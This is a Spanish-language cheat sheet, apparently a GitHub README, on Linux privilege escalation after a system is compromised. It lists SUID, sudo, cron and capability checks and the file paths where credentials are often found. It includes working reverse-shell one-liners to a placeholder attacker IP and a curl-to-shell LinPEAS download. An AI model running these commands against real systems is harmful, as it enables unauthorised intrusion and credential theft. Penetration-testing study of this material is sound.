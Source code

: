 # PrivEsc en Linux

PrivEsc es la abreviatura de *Privilege Escalation* (escalada de privilegios), un proceso fundamental en la post-explotación de sistemas comprometidos. Este documento sirve como referencia cuando se obtiene acceso a una máquina, ya sea mediante una webshell o un usuario del sistema a través de SSH.

## ✨ Índice

1. 📌 [Contexto](#contexto)
2. 🖥️ [Mejorando la TTY](#mejorando-la-tty)
3. 🔥 [La escalada](#la-escalada)
   - 🔑 [Comprobación de privilegios](#comprobacion-de-privilegios)
   - 🎭 [Permisos SUID](#permisos-suid)
   - ⏰ [Crontabs y archivos sensibles](#crontabs-y-archivos-sensibles)
   - 📊 [Versiones del sistema y sudo](#versiones-del-sistema-y-sudo)
   - 🏗️ [Capabilities](#capabilities)
4. 🎯 [Revershell](#revershell)
5. 🛠️ [Herramientas automáticas](#herramientas-automaticas)
6. ✅ [Checklist](#checklist)
7. 📚 [Recursos](#recursos)

## 📌 Contexto

Si el acceso se ha conseguido a través de una webshell, es recomendable mejorar la interacción con el terminal para optimizar la ejecución de comandos y evitar problemas con la entrada y salida estándar.

## 🖥️ Mejorando la TTY

Para mejorar la TTY al obtener una shell:

- **🎭 Obtener una TTY interactiva**:
  ```sh
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
- **🔧 Establecer el modo de línea canónica y eco de entrada**:
  ```sh
  stty raw -echo
  export TERM=xterm
  ```
- **📏 Mejorar la compatibilidad con ciertas teclas**:
  ```sh
  stty rows 40 cols 100
  ```
- **📝 Habilitar el historial de comandos**:
  ```sh
  script /dev/null -c bash
  ```

## 🔥 La escalada

### 🔑 Comprobación de privilegios

- **🔍 Ver comandos sudo disponibles**:
  ```sh
  sudo -l
  ```
- **🆔 Ver grupos del usuario actual**:
  ```sh
  id
  ```

### 🎭 Permisos SUID

Los permisos SUID permiten ejecutar un binario con los privilegios del propietario del archivo:

```sh
find / -perm -4000 2>/dev/null
# 🎯 Objetivos comunes: find, nmap, vim, bash, nano, more/less, tcpdump
```

También se pueden buscar archivos con permisos de escritura para cualquier usuario:

```sh
find / -writeable 2>/dev/null
```

### ⏰ Crontabs y archivos sensibles

- **🛠️ Buscar tareas cron ejecutadas como root**:
  ```sh
  crontab -l
  cat /etc/crontab
  ```
- **📂 Rutas donde se pueden encontrar credenciales**:
  - 📍 `/opt`
  - 📍 `/tmp | /var/tmp`
  - 📍 `/var/backups`
  - 📍 `/var/mail`
  - 📍 `/var/www/html`
  - 📍 `/dev/shm`
  - 🔐 `/var/www/html/wordpress/wp-config.php`
  - 🔐 `/etc/apache2/.htpasswd`
  - 🕵️ Historial de comandos: `~/.bash_history`, `~/.zsh_history`
  - ⚙️ Archivos de configuración: `*.php`, `*.conf`, `*.yml`
  - 💾 Backups: `/var/backups/*`, `*.bak`, `*.old`
  - 🔑 SSH: `~/.ssh/id_rsa`, `/etc/ssh/sshd_config`
  - 🗄️ Bases de datos: `wp-config.php`, `settings.py`, `*.db`

### 📊 Versiones del sistema y sudo

Verificar información del sistema y la versión de sudo:

```sh
uname -a
lsb_release -a
sudo --version
```

### 🏗️ Capabilities

Las capabilities permiten asignar privilegios específicos sin necesidad de ser root:

```sh
getcap -r / 2>/dev/null
# 🚨 Peligrosas: cap_setuid+ep, cap_dac_read_search+ep
```

## 🎯 Revershell

Si encontramos un RCE y queremos obtener una shell:

```sh
# 🐚 Bash (si /dev/tcp está habilitado)
bash -i >& /dev/tcp/ATACANTE_IP/PUERTO 0>&1

# 🌐 Netcat tradicional
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATACANTE_IP PUERTO >/tmp/f

# 🐍 Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATACANTE_IP",PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 🛠️ Herramientas automáticas

LinPEAS es un script útil para la escalada de privilegios:

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## ✅ Checklist

✅ Verificar `sudo -l` 📋 
✅ Buscar binarios SUID/GUID 🎭 
✅ Analizar tareas cron ⏰ 
✅ Revisar capabilities 🏗️ 
✅ Buscar credenciales expuestas 🔐 
✅ Explotar versiones vulnerables ⚡

## 📚 Recursos

- **🚀 GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)
- **📖 HackTricks**: [https://book.hacktricks.xyz/](https://book.hacktricks.xyz/)
- **💣 PayloadsAllTheThings**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
